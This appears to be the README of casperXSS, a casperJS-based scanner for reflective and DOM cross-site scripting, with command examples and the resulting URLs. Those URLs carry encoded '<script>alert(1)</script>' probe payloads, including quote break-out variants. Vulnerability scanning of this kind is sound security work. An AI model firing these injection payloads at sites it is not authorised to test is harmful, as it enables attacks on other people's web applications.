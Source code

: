casperXSS v0.0.2 by Gabe Marshall
=========

Reflective/DOM XSS scanner built on casperJS

Expected Usage
------

Example #1

`
casperjs xss.js --url=http://example.com --param=vulnerableparam 
`

Result:

`
http://example.com/vulnerableparam=%3cscript%3ealert(1)%3c%2fscript%3e
`

Example #2

```
casperjs xss.js --url="http://example.com" --string=#id=1&view=default'
```


Results:

`
http://example.com/#id=1&view=default%27%3cscript%3ealert(1)%3c%2fscript%3e
`

Important
------

If you want to inject a " into your query string (i.e. to attempt a break out) you have to escape it, otherwise CasperXSS will have a meltdown ;)

`
Ex: casperjs xss.js --url="http://example.com" --string="#id=1&view=default\""
`

Example Request #3:

`
http://example.com/#id=1&view=default%22%3cscript%3ealert(1)%3c%2fscript%3e
`

Credit: Rsnake for the xss payloads